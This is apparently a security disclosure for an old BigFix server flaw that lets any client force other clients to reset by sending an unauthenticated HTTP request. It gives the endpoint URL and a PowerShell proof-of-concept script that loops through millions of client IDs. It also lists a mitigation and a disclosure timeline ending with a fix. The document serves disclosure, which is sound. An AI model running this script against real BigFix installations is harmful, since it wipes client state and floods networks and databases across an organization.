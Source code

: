## Overview

BigFix clients that find themselves in error states issue a command against the BigFix server to invalidate themselves. This allows them to gracefully reset and to inform the server that things like Report IDs, etc will no longer match their expected values coming from the client.

## Vulnerability

When a client detects an issue with it's current state it may invalidate itself by calling:

http://bigfix:52311/cgi-bin/bfenterprise/clientregister.exe?RequestType=InvalidateAndReRegisterMe

By supplying &Body=$Number after that request you can invalidate any bigfix client based on it's ID.

Resetting a client causes the client to delete all __BESData directory information, causes it to get a new client ID, and lose any manual group memberships.

The client must then evaluate all content, report back in, and will re-perform any initial provisioning tasks. Because any client can invalidate any other client, it would be trivial to have a client invalidate all clients, destroying the infrastructure, filling up the database and generating very large amounts of  network traffic.

## Potential Mitigation

Authenticating Relays is a potential mitigation but would only prevent this attack from occurring anonymously -- an attacker would need just one malicious client running BigFix to perform this attack against an authenticating relay.
Steps to Reproduce Vulnerability: Use below powershell script against a BigFix root. The higher the number of clients on the root the more effective the attack.

## Proof of Concept

Depending on the speed of the system involved you can easily do 1000 requests per second and force an organization-wide client reset within about 5 hours.

Sample Powershell Script

```
// BigFix agent IDs seem to be random in this range but dont quote me on that
foreach ($Number in 100000 .. 10000000) {
    invoke-webrequest -uri "http://bigfix-relay:52311/cgi-bin/bfenterprise/clientregister.exe?RequestType=InvalidateAndReRegisterMe&Body=$Number" | out-null
    
    // Print a status message every 100 requests
    if ($Number % 100 -eq 0) {write-host $Number}
}
```

## Disclosure Timeline
Disclosed on March 1st 2017

Fixed in BigFix 9.5.6 released July 14th 2017
